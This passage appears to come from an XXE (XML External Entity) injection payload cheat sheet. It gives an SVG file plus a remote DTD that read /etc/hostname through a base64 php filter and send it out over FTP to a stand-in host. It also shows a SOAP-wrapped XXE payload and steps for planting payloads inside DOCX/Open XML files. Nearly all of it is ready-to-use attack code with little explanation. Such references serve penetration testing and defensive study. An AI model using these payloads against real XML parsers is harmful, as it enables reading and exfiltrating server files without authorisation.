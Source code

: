 **OOB via SVG rasterization**

_xxe.svg_

```
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

_xxe.xml_

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

#### **XXE inside SOAP** ####

```
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

#### **XXE inside DOCX file** ####

Format of an Open XML file (inject the payload in any .xml file):

* /\_rels/.rels
* \[Content\_Types].xml
* Default Main Document Part
  * /word/document.xml
  * /ppt/presentation.xml
  * /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`

Tool : [https://github.com/BuffaloWill/oxml\_xxe](https://github.com/BuffaloWill/oxml\_xxe)
